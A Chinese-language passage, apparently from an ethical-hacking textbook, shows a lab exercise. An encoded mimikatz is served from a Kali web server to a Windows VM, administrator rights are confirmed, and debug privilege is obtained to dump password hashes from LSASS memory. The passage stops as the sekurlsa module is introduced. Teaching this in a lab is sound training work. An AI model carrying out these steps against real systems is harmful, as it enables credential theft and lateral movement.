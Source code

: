 现在你已经有了一个编码版本的 mimikatz，可以在 Windows 机器上下载。我们无法直接从 Kali Linux 虚拟机将编码后的 mimikatz 可执行文件复制到 Windows 虚拟机，因此我们像前几章一样通过网络传输它，通过在 Kali Linux 机器上启动一个 Web 服务器，然后将文件下载到 Windows 机器。首先，在 Kali Linux 上启动一个 Python Web 服务器：

```
kali@kali:~/Downloads$ python3 -m http.server
```

访问服务器并将*mimikatz_encoded.exe*下载到你的 Windows 虚拟机上。现在让我们提取密码哈希值。

记住，你必须具有管理员权限才能提取这些哈希值。为了确认你在 Windows 机器上的帐户是否具有这些权限，可以使用快捷键 Win-X，然后按 A 以管理员权限打开 Power-Shell 控制台。然后，使用命令`**whoami /groups**`查看你的组：

```
PS C:\Windows\system32> whoami /groups

GROUP INFORMATION

-----------------

Group Name                                                    Type             SID

============================================================= ================ ===============

   Everyone                                                      Well-known group S-1-1-0
➊ NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114
```

很好！你已经确认该用户具有管理员权限➊。现在导航到包含 mimikatz 的文件夹，并通过输入以下命令运行它：

```
PS C:\Users\Kali\mimikatz\> .\mimikatz_encoded.exe

  .#####.   mimikatz

.## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

## / \ ##  /   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )

  '#####'        > https://pingcastle.com / https://mysmartlogon.com /

mimikatz #
```

调试权限是一种安全策略，允许像 mimikatz 这样的进程将调试器附加到 LSSAS 进程并提取其内存内容。运行以下命令以指示 mimikatz 请求调试权限：

```
mimikatz # privilege::debug
Privilege '20' OK
```

如果 mimikatz 成功获取调试权限，你将看到一个`OK`消息。为了获得最佳效果，请以管理员权限运行 mimikatz 进程；这是因为具有管理员权限的进程也能够获取调试权限。

mimikatz 工具支持多个模块。例如，`sekurlsa`模块允许你从内存中提取哈希值：
